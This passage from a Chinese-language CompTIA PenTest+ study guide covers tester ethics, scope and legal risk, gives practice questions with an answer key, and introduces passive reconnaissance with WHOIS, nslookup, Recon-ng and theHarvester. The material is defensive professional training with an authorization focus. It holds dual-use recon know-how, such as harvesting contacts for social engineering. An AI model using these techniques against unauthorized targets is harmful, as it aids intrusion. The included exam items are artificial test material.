你可以通过态势感知来避免许多常见的沟通陷阱。某些利益相关者可能公开表现出敌意，例如，你的到场是审计的条件要求。立场对立的业务单元，如 IT 支持人员和 IT 安全人员，可能将渗透测试作为内部权力斗争的工具。技术从业者可能觉得你是来告诉他们，他们来之不易的成果是不够的，并对你的发现持防御态度。这些情况（以及许多其他情况）不仅真实存在，而且极有可能发生。因此，请留意利益相关者所关注的问题。寻找客户组织内部的竞争领域，并在讨论渗透测试计划和结果时时刻铭记这些竞争。小心不要将责任归咎于个人或群体，而应归咎于做法、配置和策略。将渗透测试视为增强组织实力的一种方式，而非暴露其弱点的方式，你的信息极有可能被更积极地接受。

在问题不可避免地引发争议的情况下，你可能需要降级处理。这可能是由于对渗透测试期间出现的技术问题理解不同引起的，例如 Active Directory 管理员不相信特定配置是你能够成功实施特定攻击的原因。也可能是在规划期间遇到的问题，例如什么定义了现实的攻击范围， versus 什么会产生一个让事物看起来很安全的渗透测试。无论哪种情况，如果双方发怒或讨论变得激烈，你的角色是保持冷静和专业。首先，退后一步，让人们消化和处理信息及其反应。沉默可能让人感到尴尬，但当紧张局势升级时，它也可能很重要。有时，人们只是需要时间来组织回应，或克服最初的负面反应。确保你的肢体语言保持中立，语气平稳，并控制音量。如果可能，尽量不让任何人在老板面前显得愚蠢。运用你对他们处境的共情。问问自己：他们为什么会那样回应？是什么情绪导致了他们的反应？针对他们的顾虑提出澄清性问题，以便你能提供解决方案。不要参与争论，必要时利用合同条款保持讨论文明，如果情况恶化，则退出对话。

在测试期间，你可能会发现需要立即采取行动的问题，或改变测试初始假设的发现。如果发生这种情况，你需要参考沟通计划，并可能与客户讨论目标。可能需要重新确定目标优先级，以便妥善规划和解决新问题。由于网络问题或不可预见的配置问题，某些攻击向量不可用，优先级调整也可能发生在这些情况下，等待完成测试活动可能会影响整体进度。

需要立即采取行动的问题的一个例子是犯罪活动的证据。具体来说，如果你发现你不是攻击某个系统的第一人，你应该立即停止测试；记录你所做的一切，包括你发现的妥协证据；并启动沟通计划。不要继续深挖寻找更多证据。你要避免意外破坏或污染客户采取行动所需的数字证据。相反，你应该能够证明你做了什么，以将其与其他人的行为区分开来，并提供客户启动事件响应所需的任何信息。

但何时应向执法部门报告事件？如果你代表另一个组织工作，他们可能会处理升级流程。然而，如果你的发现性质在法律上强制你在客户协议之外向执法部门报告事件，你应立即聘请法律顾问处理通知事宜。

通过维护有条理的文档为所有沟通做好准备。即使它不会作为证据进入你的报告，即使它不是刑事发现的一部分，你也会希望有笔记可供参考，涵盖渗透测试的每个部分，从规划到执行。能够快速确认你做了什么、何时做的、在哪里发生的以及为什么，是一种能挽救职业生涯的做法。永远不要低估维护和组织好自己的文档的重要性。

######## 诚信

正如我们所讨论的，对渗透测试员的信任至关重要。对大多数组织而言，这是风险管理的问题。人们如何知道付费黑客值得信任？人们如何知道渗透测试员是否具备完成工作的正确技能？一些公司认为，根据渗透测试组织或人员在社区中的声誉或财务状况来选择，风险较小。他们可能会就相关技能或认证对渗透测试组织进行面试，以确定测试员是否具备与环境匹配的技能。雇主通常会通过坚持对测试员进行背景调查（包括信用检查或犯罪记录检查，甚至可能包括药物筛查）来确保诚信。风险评估会审视这样的看法：例如，有毒瘾史或负债累累的人可能更容易受贿。有利用技能从事犯罪历史的渗透测试员，可能更难让人信服他们不打算滥用权限或出售公司机密。对于联邦组织，背景调查可能需要更广泛的评估。过往工作表现、财务稳定性和推荐信是能力和意图的良好指标。但渗透测试员的谨慎性又如何呢？


遵守数据访问的“需知”原则对好奇心强的人来说可能是个挑战，但这绝对是职业素养的重要组成部分。因为系统或数据很有趣，所以想去查看它们，这种诱惑可能很大。也许揭露丑闻的诱惑力更强。屈服于这些诱惑不仅是不道德和不专业的，根据地区法律、合同条款以及你访问信息后的处理方式，这也可能是非法的。相反，应遵守你的`RoE`，仅访问与你的目标相关的系统和数据。如果范围需要变更，请根据你的沟通计划，与利益相关者进行目标重新确定优先级的讨论。通常，尝试以仅收集测试下一部分所需信息的方式进行测试。例如，除非这是目标，否则不要收集域中的每一个凭据，而是在可能的情况下有选择地收集凭据。

同样，仅使用客户批准的工具，不要攻击任何你无权测试的目标。作为范围界定的一部分，你可以定义一个通用的工具列表供讨论，并记录你计划如何使用这些工具以及打算使用哪些工具。然后仅专注于批准的目标范围，小心避免任何超出范围的目标。有意或无意地测试超出你授权范围的资源或组织，根据你的行为和地区法律，可能是非法的。如果你发现自己误入了授权范围之外，请立即与客户沟通，以便在需要时进行额外通知。如果你需要练习技艺，请仅在你拥有或有权限的系统上进行。这就是为什么在规划渗透测试时，识别网络或系统是否与合同范围外的其他组织共享如此重要的原因之一。

当你访问客户信息时，请根据合同条款处理。务必遵守`NDA`中规定的细节以及其他合同语言中确定的数据处理要求。不要与不需知情的朋友、熟人或业务合作伙伴讨论你的客户或他们的环境。即使你知道特定环境中的安全弱点，也不应在合同条款之外谈论它们。限制在公共场所谈论工作，不要在这些讨论中提及客户或利益相关者的名字。不要吹嘘你如何严重地“拿下”了客户，或发表其他可能损害其声誉的环境状况评论，否则你可能会面临诉讼风险。

######### 对测试人员的风险

未能遵守合同条款可能会使你个人面临风险。未经许可访问或使用计算机系统可能被视为非法使用或访问。利用数据或访问权限进行合同禁止的活动，可能被视为为欺诈目的而访问。在目标环境之外传输数据并将其留为个人使用或给予他人，可能构成数据窃取。渗透测试人员可能因未经许可或超出合同条款的活动而面临逮捕、财产没收、高额法律费用和罚款以及刑事指控。罚款可能从几百美元到几十万美元不等。刑期从缓刑到 20 年以上监禁不等，取决于违规的类型和严重程度。合同语言可能是你与违法之间的唯一屏障。至关重要的是，你要审查`RoE`和其他文件，并在渗透测试期间始终保持在协商条款范围内。

渗透测试人员和公司可能试图通过购买错误与遗漏保险来规避其他法律责任。如果客户主张疏忽，这应能处理罚款并承担法律诉讼的费用。渗透测试合同应注明测试不会发现所有可能的弱点，并定义运营条款。然而，在渗透测试完成且所有发现已处理后，如果客户遭受威胁行为者入侵，他们可能不理解这一点并试图采取法律行动。

### 章节回顾

规划渗透测试、保持对法律和合同问题的认识以及管理职业责任，都是成功开展渗透测试业务的必要条件。本章重点介绍了你为 CompTIA 认证所需了解和理解的一些概念。在本章中，我们讨论了合同和文档，如`MSA`、`NDA`、`SOW`、`RoE` 和测试授权文件，以及它们之间的区别。我们探讨了监管和合规概念，包括`GDPR` 和 `PCI-DSS`，以及合规考虑对报告的影响。我们谈到了基于时间、资产、工具和方法论的测试限制。我们描述了渗透测试范围界定的考虑因素，包括可能用到的一些标准、如何针对不同类型的目标进行目标选择、与利益相关者进行合同审查的重要性，以及沟通规划的考虑因素。最后，我们讨论了如何通过在整个渗透测试过程中保持专业精神和诚信来展示道德黑客思维。

################ 问题

**1.** 你的客户要求进行渗透测试，作为其 `PCI` 合规要求的一部分。以下哪项范围界定考虑是恰当的？

**A.** 对公司拥有的所有面向互联网的接口执行漏洞扫描。

**B.** 列出环境中收集和存储 `PII` 和 `PHI` 数据的位置，并仅验证这些系统上的安全控制。

**C.** 请求过去 12 个月所有交易的客户列表，以验证测试期间可能发现的信用卡处理交易。

**D.** 识别限制 `CDE` 的边界，并确保从该环境内部和外部测试这些边界的安全性。

**2.** 将以下概念与适当的法规匹配。



**3.** 在渗透测试期间，你攻破了一个易受攻击的 Web 应用程序并植入了一个 Webshell。当你列出目录内容时，发现还有其他几个看起来像 Webshell 的文件。你应该怎么做？

**A.** 从机器中收集尽可能多的信息，包括 Webshell 的创建时间和发生的其他操作。

**B.** 截取证据截图并继续测试。

**C.** 建立持久化，然后联系你的联系人，告知他们你发现了一个关键发现。

**D.** 立即停止测试，并根据沟通计划启动沟通。

**4.** 你正在对一个拥有数百个用户和服务账户的小型域进行渗透测试。你想尝试对该域进行 Kerberoasting。你应该怎么做？

**A.** 识别少量易受攻击的账户作为起点。

**B.** 获取尽可能多的易受攻击账户。

**C.** 尝试获取关于所有域账户的尽可能多的信息。

**D.** 检查 `MSA` 以确保允许进行 Kerberoasting。

**5.** 将以下概念与正确的合同或文档匹配。



**6.** 将以下概念与适当的标准或框架匹配。



#### 答案


## 第 1 章：练习题与答案

### 问题 1
**D.** 持卡人数据环境 (CDE) 专门受 PCI-DSS 标准保护，渗透测试应评估将该环境与其他系统隔离的控制措施的安全性。

### 问题 2
**A、B、D。** 当涉及持卡人数据 (CHD) 时，PCI-DSS 关注 PII，并涉及对持卡数据环境安全性的测试，且受行业监管。

**B、C、E。** GDPR 是一项欧盟法规，涉及欧盟居民的隐私权。它将 PII 作为其中一部分加以涵盖，并由政府强制执行。

### 问题 3
**D.** 采取任何进一步行动都可能污染客户为潜在法律诉讼而必须收集的数字证据。

### 问题 4
**A.** 从尽可能窄的范围开始。

### 问题 5
**C.** NDA 定义了保密条款，包括信息何时以及如何可以共享和披露。

**A、E.** SOW 定义了要完成的工作活动、交付物的时间安排以及适用的验收标准。

**B、D.** MSA 定义了赔偿条款及业务关系的其他要素，包括争议解决流程。

**G、H.** RoE 阐明了 SOW 中的项目，如允许的测试、目标以及通信计划的细节。

**F.** 测试授权提供了你被授权进行测试的证明。

### 问题 6
**B.** MITRE ATT&CK 是一个由包含战术、技术和子技术的矩阵所引用的框架。

**F.** OWASP Top Ten 与枚举 Web 应用攻击相关联。

**D.** NIST 标准常被美国政府采用。

**G.** PTES 专注于渗透测试，由社区驱动的标准组成。它自由地引入其他框架和技术指南作为补充资源。

**C、E.** OSSTMM 通过 ISECOM 提供认证选项，且 OSSTMM 提供了一种衡量和报告风险值（渗透测试指标）的方法论。

**A.** ISSAF 虽然设计用于安全评估而非渗透测试，但包含最佳实践，并列出了每个测试任务及其相关工具。

### 参考资料

1.  CREST：<https://www.crest-approved.org/>
2.  GDPR：<https://gdpr.eu/tag/gdpr/>
3.  个人数据：<https://ico.org.uk/for-organisations/guide-to-data-protection/guide-to-the-general-data-protection-regulation-gdpr/key-definitions/what-is-personal-data/>
4.  <https://www.legislation.gov.uk/eur/2016/679/article/32>
5.  PCI-SSC：<https://www.pcisecuritystandards.org>
6.  PCI-DSS v. 3.2.1：<https://www.pcisecuritystandards.org/documents/PCI_DSS_v3-2-1.pdf>
7.  PCI-DSS 信息补充：渗透测试指南：<https://www.pcisecuritystandards.org/documents/Penetration-Testing-Guidance-v1_1.pdf>
8.  PCI 敏感认证数据：<https://www.pcisecuritystandards.org/pci_security/glossary#S>
9.  攻击者仿真计划：<https://attack.mitre.org/resources/adversary-emulation-plans/>
10. NIST SP800-115 "Technical Guide to Information Security Testing and Assessment"：<https://nvlpubs.nist.gov/nistpubs/Legacy/SP/nistspecialpublication800-115.pdf>
11. NIST 网络安全框架：<https://www.nist.gov/cyberframework>
12. ISECOM 开源安全测试方法论手册 (OSTMM)：<https://www.isecom.org/research.html>
13. 社会责任计算机专业人士协会。计算机伦理十诫，由计算机伦理研究所编写：<http://cpsr.org/issues/ethics/cei/>

## 第 2 章：信息收集与漏洞扫描

在本章中，你将了解：

*   被动侦察与主动侦察及漏洞扫描的区别，包括目标信息的类型
*   用于信息收集和漏洞扫描的多种工具及其输出分析
*   在渗透测试期间何时使用被动侦察、主动侦察或漏洞扫描
*   识别并分析 Nmap 的使用场景

尽可能多地收集有关目标的信息被称为侦察，或发现。渗透测试人员在渗透测试的规划、初始访问和后利用阶段执行此操作。侦察用于识别或确认目标范围，发现潜在弱点或漏洞以供利用，并定位与渗透测试目标相关的其他信息。

根据评估类型，大量范围界定信息可能已提供，例如 IP 地址、电子邮件地址、域名等。但是，确认 IP 范围或应用程序的所有权（例如）可能是个好主意。你可能还会识别目标上的开放服务或系统版本，以识别可利用的漏洞。你可以在 Web 服务器上查找各种 Web URL，以发现值得进一步检查的登录表单或管理界面。你的目标是找到有助于推进渗透测试目标的信息。填补知识空白并建立对可用目标的理解将帮助你更有效地管理时间并制定可行的攻击计划。

以下是你可能以此为目标的其他信息示例，我们将在本章中讨论：网站（如登录表单或暴露的管理界面）、用户账户和电子邮件地址、证书数据、网络范围内有哪些系统在线、业务合作伙伴关系、开放服务、操作系统和软件版本、托管提供商和域名服务信息、内部文档模板、组织信息（如职位角色、策略、术语或正在使用的技术），甚至预期的防御类型。在后利用阶段，你收集的信息可能更深入地延伸到组、共享和令牌枚举。

所有这些活动通常可分为三类攻击：被动侦察、主动侦察和漏洞扫描。针对 CompTIA Pentest+ 考试，你应该牢固掌握这些类别之间的区别、何时使用它们、哪些工具将协助你完成每项任务，以及如何识别和分析某些工具的结果。

################ 被动侦察


假设你需要雇人修理家里的东西。但在你更多地了解他们之前，你不想给他们钱，也不想让他们进你的家。这个人或企业有犯罪记录吗？他们干活靠谱吗？你可能会决定询问过去与该个人有过业务往来的朋友，或通过商业局调查他们。你可以在社交媒体服务上查找他们的评价。你可能会决定要求进行犯罪背景调查——所有这些都无需直接与潜在承包商接触。

在渗透测试中，这就是被动信息收集。它是评估目标以收集关于系统、软件、网络和人员的初步知识的过程，*无需主动接触目标或其资产*。这种形式的信息收集侵入性最小，也最不可能被目标发现。在渗透测试中，使用这些方法来验证范围并协助规划，以及在渗透测试期间进行初步发现是恰当的。根据你的预算和资源，可以使用付费和公开的信息来源（开源情报）。当你在渗透测试的当前阶段不能冒险造成干扰或被发现时，请使用被动信息收集。

################ DNS 侦察

除其他用例外，你可以使用 **DNS 侦察** 来扩展你对正在使用的主机名、网络广度，甚至组织内部某些技术联系人信息的了解。DNS 侦察可以是被动的，也可以是主动的，这取决于你是否直接访问目标的系统（主动）或不直接访问。大多数测试人员认为，对 DNS 服务器的大量请求意味着目标不会监控对 DNS 服务的查询，但情况并非总是如此。辅助来源，如域名注册商、互联网注册机构、专业搜索引擎或其他基于 Web 的资源，允许在该领域进行纯粹的被动信息收集。

让我们先谈谈 IP 范围。有五个区域互联网注册机构（RIR）负责处理整个互联网上的 IP 地址分配：APNIC（亚洲）、ARIN（美洲）、RIPE NCC（欧洲）、LACNIC（拉丁美洲）和 AFRINIC（非洲）。其理念是防止两方被分配相同的地址范围以供使用。这些注册机构包含有关哪个组织拥有特定 IP 地址范围的信息，有时还包括技术和管理联系人的信息。正如你在图 2-1 中所见，你可以搜索联系点（POC）、网络或 ASN，或组织或客户名称。



**图 2-1** ARIN 高级搜索 ([`whois.arin.net/ui/advanced.jsp`](https://whois.arin.net/ui/advanced.jsp))

此信息还通过 WHOIS 服务与域名注册条目相关联。假设我们通过选择 POC 并勾选 Domain 来根据域名注册记录进行搜索，并输入 `comptia.org` 来查找域名，以此搜索 CompTIA。这将返回根据 RIR 负责该域名的人员姓名。对于返回的每个姓名，你可以点击获取更多详细信息，包括邮寄地址、电子邮件地址、电话号码，甚至相关组织。然后你可以利用这些信息搜索社交媒体或其他开源信息，用于社会工程学。如果我们点击“相关组织”，我们将获得一份用于滥用处理、技术和管理目的的组织列表。点击组织名称右侧的链接，你将看到“另请参阅相关网络”的链接，如图 2-2 所示。这是该组织拥有的 IP 地址列表。



**图 2-2** ARIN 组织相关网络

你也可以通过在 ARIN 中搜索特定 IP 地址来验证范围列表中 IP 的所有权。在页面右上角的搜索对话框中输入 IP 地址，你将获得该 IP 所属的网络范围以及所有权记录。这在识别云和第三方托管资产时很有用。我们稍后会回到这一点。

还有其他方法可以从 DNS 访问信息，例如使用 `dig` 或 `whois` 命令行工具来调查域名所有权。`whois` 命令在大多数 Linux 发行版中均可用，它允许你使用域名检索有关系统的信息。图 2-3 是使用 `whois` 命令查询 [example.com](http://example.com) 的示例命令输出。



**图 2-3** WHOIS

输出可以提供有用的信息，有助于识别域名创建日期、最后更新时间、将公司和业务位置与域名关联、DNSSEC 信息，以及在某些情况下，注册商的联系信息。当你看到单个主机名返回多个 IP 地址时，如图 2-4 中的 `nslookup` 命令所示，这可能表明正在使用负载均衡。这是高流量环境中的常见配置。我们将在本章后面更深入地讨论这一点。使用像 `nslookup` 这样的工具将域名解析为 IP 地址称为正向 DNS 查找。反向 DNS 查找则相反——此过程将 IP 地址解析为域名。



**图 2-4** nslookup

现在，回到我们的云资产发现。假设你已经识别出一堆属于某公司的服务器。你使用 `nslookup` 查找它们的 IP 地址。然后你在 RIR 中查找这些 IP 地址，发现这些 IP 范围并不属于相关公司。相反，这些 IP 地址位于属于微软、亚马逊或其他托管提供商的网段中。你对这些资产进行渗透测试的方法可能会根据它们的托管位置而有所不同。云提供商通常会发布其云托管范围，例如 Azure 的 [`www.microsoft.com/en-us/download/details.aspx?id=56519`](https://www.microsoft.com/en-us/download/details.aspx?id=56519) 或 AWS 的 [`ip-ranges.amazonaws.com/ip-ranges.json`](https://ip-ranges.amazonaws.com/ip-ranges.json)，而 RIR 将揭示给定 IP 范围所有权的其他信息，这在你的研究期间可能很有用。

你也可以使用 DNS 中的 MX 记录来识别正在使用的云服务。使用 `nslookup`，你可以将记录类型设置为 MX 以识别邮件服务器。查找像 [google.com](http://google.com)、[googlemail.com](http://googlemail.com)、[outlook.com](http://outlook.com) 等条目，以指示基于云的电子邮件。这是一个使用 `dig` 和谷歌名称服务器获取关于 comptia.org 信息的示例：




**考试提示**  了解不同类型的 DNS 记录及其包含的信息很有用，因为你可能会被问到特定的记录类型。请特别注意 NS、TXT、CNAME 和 A 记录。这里不再一一列举，你可以在 [`www.iana.org/assignments/dns-parameters/dns-parameters.xhtml#dns-parameters-4`](https://www.iana.org/assignments/dns-parameters/dns-parameters.xhtml#dns-parameters-4) 阅读更多内容。

###### Recon-ng

如果你想要一个框架来帮助进行此类搜索，Recon-ng 是一个强大的侦察框架。它是用 Python 编写的，如果你曾经使用过 Metasploit，你会发现它的界面很熟悉。它包含独立的模块、一个用于存储项目信息的数据库，以及更多功能。你可以提供一个域名，让 Recon-ng 识别该域名上的 IP 地址和主机名，并使用 OSINT 资源搜索与该域名相关的电子邮件地址、联系人和泄露信息。Recon-ng 是开源的，并包含在 Kali 的安装中。从 Kali 启动一个终端窗口，并按照此处的步骤开始使用 Recon-ng：


###### 1. 执行 Recon-ng

该工具通过在命令行输入 `recon-ng` 来执行。要获取命令列表，请在框架提示符下执行 `help`。

###### 2. 安装模块

默认情况下，Kali 中的 Recon-ng 未安装任何模块。要安装它们，可能需要在 Recon-ng 提示符下输入 `marketplace install all`。完成此操作后，启动屏幕将显示每个类别支持的模块总数。Recon-ng 模块类别如下：

- **Recon modules**：侦察模块。
- **Disabled modules**：根据系统配置禁用的模块。如果没有禁用的模块，此项可能不会显示。
- **Reporting modules**：以各种格式编译报告。
- **Import modules**：使用支持的格式导入目标列表。
- **Exploitation modules**：支持的利用模块。
- **Discovery modules**：信息发现模块。

###### 3. 搜索模块

要获取支持的模块列表，请在框架提示符下不带参数执行 `modules search`。

###### 4. 创建工作区

首先要做的是创建一个工作区来管理信息收集。工作区和模块执行期间收集的信息将存储在数据库中。



###### 5. 查看工作区

要查看数据库中的工作区列表，请执行：




> **EXAM TIP**  
> Black Hills Information Security 托管了一份 Recon-ng 备忘单，包含许多有用的命令：[`www.blackhillsinfosec.com/wp-content/uploads/2019/11/recon-ng-5.x-cheat-sheet-Sheet1-1.pdf`](https://www.blackhillsinfosec.com/wp-content/uploads/2019/11/recon-ng-5.x-cheat-sheet-Sheet1-1.pdf)

###### 6. 加载 WHOIS 模块

要运行简单的 WHOIS 查询并提取域的联系信息，请加载 `whois_pocs` 模块：

```
[recon-ng][example] > modules load whois_pocs
```

###### 7. 配置模块选项

模块加载后，可以通过输入 `info` 查看有关该模块的更多信息，包括可配置参数。在模块加载时输入 `options` 也可以显示当前上下文变量，并允许设置值。在这种情况下，设置搜索目标：

```
[recon-ng][example][whois_pocs] > options set SOURCE comptia.org
```

###### 8. 执行模块

当然，你需要设置一个真实的目标。这里仅作为示例。当你使用 `run` 命令执行模块时，发现过程可能需要几分钟，因为网络速度各异。但图 2-5 显示了运行时可能看到的示例。



**图 2-5** Recon-ng 模块执行

###### 9. 显示结果

收集过程完成后，可以使用 `show <table name>` 命令显示存储在数据库中选定表内的结果。要获取所有表的列表，请不带参数输入 `show`。

###### 10. 查看联系人

`whois_pocs` 模块填充 Contacts 表。要获取已收集的联系人列表，请执行 `show contacts`。

###### 11. 仪表盘

Recon-ng 仪表盘（图 2-6）显示数据库中每个表存储的记录总数。要显示仪表盘，请执行 `dashboard` 命令。这些指标提供了关于目标环境和组织面向公共互联网暴露面的宝贵信息。



**图 2-6** Recon-ng 仪表盘


> **CAUTION**  
> 某些 Recon-ng 模块需要 API 密钥。请遵循开发者网站使用指南中“获取 API 密钥”下的说明：[`github.com/lanmaster53/recon-ng`](https://github.com/lanmaster53/recon-ng)。

###### theHarvester

另一个用于 DNS 侦察的工具是 theHarvester。你也可以用它从各种网页（如搜索引擎）收集信息，以发现域、子域和电子邮件地址。该工具的最新版本可在开发者的 GitHub 页面找到：[`github.com/laramies/theHarvester`](https://github.com/laramies/theHarvester)，并且包含在 Kali Linux 中。该基于 Python 的框架使用简单，包含允许*被动或主动查询*以收集目标信息的选项。被动来源包括各种搜索引擎和社交媒体账户，如 Google、Yahoo! 或 Bing。表 2-1 提供了 theHarvester 的语法选项。



**表 2-1** theHarvester 开关

图 2-7 显示了使用 Google 搜索引擎对 comptia.org 进行被动搜索的结果。可以看到 theHarvester 返回了与该域关联的多个电子邮件地址和主机。这些结果可能不完全准确，因此你应该验证它们。在实战中，仔细分析这些信息很重要，在某些情况下，在执行进一步测试前需与客户核实信息。



**图 2-7** theHarvester -d comptia.org -b google


> **CAUTION**  
> 有几个模块需要 API 密钥才能工作，例如 `googleCSE`、`shodan` 和 `bingapi`。你需要通过供应商网站注册密钥。API 密钥需要添加到 theHarvester 中相应的发现脚本中才能使用。请参考 theHarvester GitHub 页面获取更多信息。

##### OSINT

互联网上有许多公共和付费资源可用于被动收集信息。这些来源可能还包含有关公司的信息，包括文档模板、员工名单和其他技术信息。通过数据挖掘，你可以分析大型数据集以揭示模式或隐藏的异常。渗透测试人员可以用来辅助数据挖掘过程的一个开源框架称为 OSINT 框架（[`osintframework.com`](http://osintframework.com)），如图 2-8 所示。

